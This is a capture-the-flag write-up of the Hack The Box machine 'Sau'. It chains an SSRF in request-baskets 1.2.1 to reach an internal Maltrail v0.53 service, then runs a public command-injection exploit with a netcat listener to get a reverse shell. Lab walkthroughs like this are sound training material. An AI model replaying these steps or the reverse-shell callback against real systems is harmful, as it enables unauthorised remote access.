 ```yaml
---
title: Sau
categories: HTB
tags: retired, easy, linux
img_path: /assets/img/HTB/sau/
---
```


![Sau HTB machine card](Sau.png)

> Sau is an easy Linux machine from Hack the Box.
{: .prompt-tip }

## Enumeration

Let's start off with a basic nmap scan.

```
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nmap 10.10.11.224                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 15:07 MST
Nmap scan report for 10.10.11.224
Host is up (0.061s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 11.14 seconds
```

SSH is probably not our ticket and port 80 is filtered, so 55555 is looking really interesting. Let's take a closer look and see what we have.

### Request Baskets

![Create a new basket](new_basket.png)
Visiting our ip address at port 55555 in a browser shows us a page called Request Baskets, which says it can collect and inspect HTTP requests.

Further investigation shows us that it is powered by request-baskets version 1.2.1. This should be helpful!

![Request Basket version 1.2.1](request_baskets_version.png)

Searching Google for request baskets version 1.2.1 reveals that it is vulnerable to server side request forgery (SSRF), CVE-2023-27163. Maybe we can use this to see what is on port 80?

Let's test it out by starting a netcat listener on our machine and see if we can reach it by creating a new basket.

```
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nc -lvnp 80
```

In the basket settings, let's configure it to forward the request to our Kali machine's IP address.

![Basket settings](forward_settings1.png)

Next, let's curl the basket using the URL provided

![Basket URL](basket_url.png)

Success! We are able to receive the request we sent on our netcat listener.

![Screenshot with nc listener](nc_request.png)

### SSRF

Now that we see how things work and know that it is vulnerable, let's see if we can use it to connect to the mysterious port 80. To do this, let's edit the settings for our basket again and set it to forward port 80 from `http://127.0.0.1` with Proxy Response and Expand Forward Path checked.

![Basket settings](forward_settings2.png)

Now when we go to the URL for the basket, it gives us a broken looking site. At the bottom, we notice it is running something called Maltrail v 0.53. 

![Maltrail site that is a little broken](maltrail.png)

Google shows us that this version is vulnerable to unauthenticated OS command injection (RCE). I found this Python exploit that should give us a reverse shell. https://github.com/spookier/Maltrail-v0.53-Exploit

To run the exploit, we just need to start a netcat listener (I chose port 9001), then run the exploit passing it our listening IP address and port, along with the url for our basket.

```
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB]
└─$ python3 maltrail.poc.py 10.10.14.6 9001 http://10.10.11.224:55555/ionzxhf
```

![Reverse shell](rev_shell.png)
Hooray! We now have a reverse shell, it looks like we're currently running as the user "puma".


